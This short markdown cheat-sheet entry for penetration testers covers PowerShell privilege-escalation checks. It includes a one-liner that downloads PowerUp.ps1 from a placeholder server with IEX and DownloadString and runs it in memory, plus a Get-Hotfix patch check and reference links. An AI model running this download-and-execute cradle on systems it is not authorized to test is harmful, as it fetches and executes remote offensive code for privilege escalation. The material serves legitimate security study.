 # Powershell

**Description:** A description of the entry

**Requirements:** powershell

## Running PowerUp to check for privilege escalation

```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('<server>/PowerUp.ps1'); Invoke-AllChecks"
```

Run PowerUp on system

## Checking for missing patches using Powershell

```powershell
Get-Hotfix KB*******
```

Checking missing patches (Powershell)

  
## References
* [Powersploit - PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [MSLearn - GetHotfix](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-hotfix?view=powershell-7.3)